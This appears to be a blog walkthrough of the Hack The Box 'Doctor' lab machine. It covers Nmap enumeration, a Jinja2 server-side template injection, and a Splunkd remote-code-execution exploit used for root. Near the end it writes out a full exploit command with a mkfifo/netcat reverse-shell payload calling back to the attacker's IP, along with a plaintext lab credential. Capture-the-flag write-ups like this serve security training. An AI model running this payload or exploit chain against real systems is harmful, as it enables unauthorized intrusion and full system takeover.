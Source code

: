 ```yaml
---
layout: post
title:  "Doctor Hack The Box Walkthrough"
date:   2021-02-15 15:00:00 +0530
categories: HackTheBox HTB CTF
---
```

Doctor is a machine in which I used Server Side Template injection to get to obtain shell access and then used enumeration and exploit vulnerable service to get root Access.

## Scanning
As always, I started scanning with Nmap

```
nmap -sV -sV 10.10.10.209
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:35 EDT
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.17s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
8089/tcp open  ssl/http Splunkd httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.74 seconds
```
A Normal HTTP, SSH Services and service called splunkd we will look it up later.

## Important 
An Important thing to do is to add the ip and domain to /etc/hosts becuase of the host routing.
```
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.209 doctors.htb
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
## Testing
So First I tried to browse the site using the ip there is nothing important there so I got in using doctors.htb and a login page appeared!

![Username](/assets/machines/hackthebox/doctor/1.png)

I made an account and logged in and started making new messages. I was susspious about three things as the machine name is "Doctor"

1. SQL Injection (Failed)
2. XXE Injection (Vulnerable but coulding get Shell)
3. Server Side Template Injection (Succeed)

Using the inspect element I found another directory 
![Username](/assets/machines/hackthebox/doctor/2.png)

I tested the new messages both title and content. so found title is vulnerable to SSTI and visite /archive to execute. and found the code executed so it's Server-Side Template Injection.
![Username](/assets/machines/hackthebox/doctor/3.png)

![Username](/assets/machines/hackthebox/doctor/4.png)

I tried to identify the template engine and it was jinja 2. So, I started listening on netcat and added the payload to title as the pervious example and executed it as I visited /archive
```
nc -lvnp 9999
```
![Username](/assets/machines/hackthebox/doctor/5.png)

## Privilege Escalation 
I ran Linpeas and found a strange thing in password in logs section 

![Username](/assets/machines/hackthebox/doctor/6.png)

So, I tried to su shaun using this as a password and it worked! At this time, I was thinking about the usage of Splunkd so I started searching for exploits and found this one
[Exploit](https://github.com/DaniloCaruso/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)

Imeditatly I downloaded it and ran it

```
python exploit.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.110 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.110 1234 >/tmp/f" --username shaun --password Guitar123
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp5iVeZF.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.110:8181/
10.10.10.209 - - [29/Sep/2020 10:56:24] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```
And Started a listened in other netcat session

```
kali@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.10.209] 59218
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

```
and voila here is the root privilege!






